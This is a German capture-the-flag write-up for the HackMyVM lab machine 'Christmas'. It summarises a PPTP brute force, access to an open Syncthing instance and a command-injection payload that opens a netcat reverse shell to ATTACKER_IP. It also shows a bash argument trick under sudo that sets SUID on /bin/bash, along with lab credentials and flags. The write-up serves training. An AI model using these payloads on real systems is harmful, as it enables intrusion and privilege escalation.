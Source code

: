 # Christmas - HackMyVM (Hard)

![Christmas.png]

## Übersicht

*   **VM:** Christmas
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Christmas)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 29. Dezember 2023
*   **Original-Writeup:** https://alientec1908.github.io/Christmas_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Christmas" von HackMyVM (Schwierigkeitsgrad: Hard) bot eine komplexe Herausforderung, die mehrere Eskalationsschritte erforderte. Der initiale Zugriff wurde durch einen Brute-Force-Angriff auf einen PPTP-VPN-Dienst erlangt, gefolgt von der Ausnutzung einer ungesicherten Syncthing-Instanz im internen Netzwerk, um an Quellcode mit hartkodierten Web-Login-Daten zu gelangen. Eine Command Injection-Schwachstelle in einer Admin-Funktion der Webanwendung ermöglichte dann eine Shell als `www-data`. Die weitere Eskalation erfolgte durch das Finden von Benutzer-Credentials in einer Konfigurationsdatei und schließlich durch die Ausnutzung einer fehlerhaften Bash-Skript-Logik in einer `sudo`-Regel, um Root-Rechte zu erlangen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `nikto`
*   `nmap`
*   `gobuster`
*   `bash` (für Scripting)
*   `pptpsetup`
*   `ip`
*   `apt`
*   `syncthing`
*   `systemctl`
*   `unzip`
*   `ModHeader` (Browser Plugin)
*   `curl`
*   `nc` (netcat)
*   `script` (für Shell-Stabilisierung)
*   `ssh-keygen`, `ssh`
*   `openssl` (für Zufallszahlengenerierung im Exploit)
*   `tr`, `head`, `touch`
*   Standard Linux-Befehle (`cd`, `ls`, `cat`, `su`, `sudo`, `cp`, `chmod`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Christmas" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration (Extern):**
    *   Identifizierung der Ziel-IP (`192.168.2.106`) via `arp-scan` und Eintrag als `christmas.hmv` in `/etc/hosts`.
    *   `nikto` und `nmap` zeigten offene Ports: 22 (SSH 9.2p1), 80 (Apache 2.4.57) und **1723** (PPTP). Nikto meldete fehlende Sicherheitsheader, Directory Indexing (`/assets/`, `/images/`), eine `robots.txt` und `/login.php`.
    *   `gobuster` fand weitere PHP-Dateien (`generic.php`, `elements.php`).
    *   `robots.txt` verwies auf `/webid`.
    *   Im Quellcode der Startseite wurde die E-Mail `admin@christmas.hmv` gefunden (potenzieller Benutzername).

2.  **Initial Access (PPTP & Syncthing):**
    *   Ein Bash-Skript (`vpncrack.sh`) wurde verwendet, um den PPTP-Dienst (Port 1723) mit dem Benutzernamen `admin` und einer Wortliste zu brute-forcen. Das Passwort `princesa` wurde gefunden.
    *   Nach erfolgreicher PPTP-Verbindung wurde das interne Netzwerk (`192.168.3.0/24`, Gateway `192.168.3.1`) gescannt.
    *   `nmap` auf `192.168.3.1` offenbarte interne Dienste, darunter **Syncthing** auf Port 8384 (Web-GUI) und 22000.
    *   Die Syncthing-Weboberfläche auf `http://192.168.3.1:8384` war ohne Passwort zugänglich.
    *   Die lokale Syncthing-Instanz des Angreifers wurde mit der Ziel-Instanz gekoppelt.
    *   Der Ordner `/srv/ftp` wurde auf der Ziel-Syncthing-Instanz für das Angreifer-Gerät freigegeben.
    *   Die Synchronisation brachte eine `backup.zip`-Datei zum Vorschein, die den Quellcode der Webanwendung enthielt.

3.  **Web Application Exploitation (Shell als www-data):**
    *   Analyse des entpackten Quellcodes von `login.php` enthüllte hartkodierte Zugangsdaten: `admin`:`MyPassword1@2023*`.
    *   Der Login-Prozess war mehrstufig:
        1.  Login auf `/login.php` mit `admin`:`MyPassword1@2023*` leitete zu `2fa.php`.
        2.  Um auf `/webid/admin/login.php` zuzugreifen, musste der `Referer`-Header auf `http://christmas.hmv/2fa.php` gesetzt werden (mit ModHeader).
        3.  Der Login auf `/webid/admin/login.php` erforderte `admin`:`MyPassword2@2023*` (vermutlich ebenfalls im Code gefunden oder erraten).
    *   Eine Command Injection-Schwachstelle wurde in `/webid/admin/categoriestrans.php` identifiziert.
    *   Mittels eines `curl`-Skripts wurde ein POST-Request gesendet, der den Payload `categories[123);system(\"nc -e /bin/bash ATTACKER_IP 4444\");/*]=test` enthielt. Authentifizierung wurde durch gesetzte Cookies und Referer simuliert.
    *   Eine Reverse Shell als Benutzer `www-data` wurde erfolgreich etabliert.

4.  **Privilege Escalation (www-data zu mr-jack):**
    *   Im Home-Verzeichnis von `mr-jack` (`/home/mr-jack/`) wurde die Datei `.config/.SecureGateway/firewall_config.conf` gefunden.
    *   Diese Datei enthielt Klartext-Zugangsdaten: `mr-jack`:`m3rrychr157m4523`.
    *   Mit `su mr-jack` und dem gefundenen Passwort wurde zum Benutzer `mr-jack` gewechselt.
    *   Die User-Flag wurde aus `/home/mr-jack/user.txt` gelesen.

5.  **Privilege Escalation (mr-jack zu root):**
    *   `sudo -l` für `mr-jack` zeigte: `(ALL : ALL) NOPASSWD: /opt/GiftPursuit`.
    *   Das Skript `/opt/GiftPursuit` verglich eine eingegebene Zahl mit einer zufällig generierten. Bei Übereinstimmung hätte es `chmod o+s /bin/bash` ausgeführt.
    *   Die Schwachstelle lag im Bash-Vergleich `[[ "${NUMBER}" -eq "${1}" ]]`. Durch Übergabe eines Arguments wie `'x[$(COMMAND)]'` wurde `COMMAND` via Command Substitution ausgeführt, *bevor* der arithmetische Vergleich fehlschlug.
    *   Der Exploit-Befehl war: `sudo /opt/GiftPursuit 'x[$(chmod +s /bin/bash)]'`.
    *   Dies setzte das SUID-Bit auf `/bin/bash`.
    *   Mit `/bin/bash -p` wurde eine Root-Shell erlangt (euid=0).
    *   Die Root-Flag wurde aus `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Schwache VPN-Passwörter:** Ermöglichte initialen Netzwerkzugriff via PPTP Brute-Force.
*   **Ungesicherte Syncthing-Instanz:** Zugriff auf die Web-GUI ohne Passwort ermöglichte Dateisynchronisation und Exfiltration von Quellcode.
*   **Hartkodierte Credentials:** Passwörter direkt im PHP-Quellcode und in Konfigurationsdateien.
*   **Fehlerhafte Authentifizierung/Autorisierung:** Komplexer, fehleranfälliger Login-Prozess mit Referer-Abhängigkeit.
*   **Command Injection:** In der Webanwendung (`categoriestrans.php`) durch unsichere Verarbeitung von Benutzereingaben.
*   **Unsichere `sudo`-Konfiguration mit fehlerhaftem Skript:** Ein Bash-Skript mit einer Command-Substitution-Schwachstelle konnte missbraucht werden, um SUID-Rechte auf `/bin/bash` zu setzen.
*   **Directory Indexing & Informationslecks:** Offenlegung von Verzeichnisstrukturen und E-Mail-Adressen.

## Flags

*   **User Flag (`/home/mr-jack/user.txt`):** `caf45c355c29186bb9d8ab89f7811bf0`
*   **Root Flag (`/root/root.txt`):** `93ba7e97218f577271c3867abf31ae8a`

## Tags

`HackMyVM`, `Christmas`, `Hard`, `PPTP`, `VPN Brute-Force`, `Syncthing`, `Command Injection`, `Hardcoded Credentials`, `Sudo Privilege Escalation`, `Bash Script Exploitation`, `Web`, `Linux`
